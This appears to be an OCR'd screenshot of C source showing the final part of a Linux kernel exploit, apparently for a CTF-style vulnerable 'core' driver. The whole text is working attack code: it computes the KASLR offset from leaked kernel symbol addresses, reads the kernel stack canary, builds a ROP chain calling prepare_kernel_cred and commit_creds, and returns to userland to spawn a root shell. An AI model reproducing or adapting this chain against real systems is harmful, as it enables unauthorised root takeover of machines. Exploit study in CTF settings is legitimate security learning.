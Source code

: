 ```c
        }

        if(!strcmp(buf, "prepare_kernel_cred")) {
            prepare_kernel_cred = addr;
            printf(SUCCESS_MSG(
                "[+] Successful to get the addr of prepare_kernel_cred: ")
        	   "%lx\n", prepare_kernel_cred);
            continue;
        }
    }

    kernel_offset = commit_creds - COMMIT_CREDS;
    kernel_base += kernel_offset;
    printf(
        SUCCESS_MSG("[+] Got kernel base: ") "%lx"
        SUCCESS_MSG(" , kaslr offset: ") "%lx\n",
        kernel_base,
        kernel_offset
    );

    /* reading canary value */

    log_info("[*] Reading value of kernel stack canary...");

    set_off_val(fd, 64);
    core_read(fd, buf);
    canary = ((size_t*) buf)[0];

    printf(SUCCESS_MSG("[+] Got kernel stack canary: ") "%lx\n", canary);

    /* building ROP chain */

    for(i = 0; i < 10; i++) {
        rop_chain[i] = canary;
    }
    rop_chain[i++] = POP_RDI_RET + kernel_offset;
    rop_chain[i++] = 0;
    rop_chain[i++] = prepare_kernel_cred;
    rop_chain[i++] = POP_RDX_RET + kernel_offset;   // exec:1
    rop_chain[i++] = POP_RCX_RET + kernel_offset;   // exec:3
    rop_chain[i++] = MOV_RDI_RAX_CALL_RDX + kernel_offset;  // exec:2
    rop_chain[i++] = commit_creds;
    rop_chain[i++] = SWAPGS_POPFQ_RET + kernel_offset;
    rop_chain[i++] = 0;
    rop_chain[i++] = IRETQ + kernel_offset;
    rop_chain[i++] = (size_t) get_root_shell;
    rop_chain[i++] = user_cs;
    rop_chain[i++] = user_rflags;
    rop_chain[i++] = user_sp + 8;   // userland stack balance
    rop_chain[i++] = user_ss;

    /* exploitation */

    log_info("[*] Start to execute ROP chain in kernel space...");

    write(fd, rop_chain, 0x800);
    core_copy(fd, 0xffffffffffff0000 | (0x100));
}

int main(int argc, char ** argv)
{
    exploitation();
    return 0;   /* never arrive here... */
```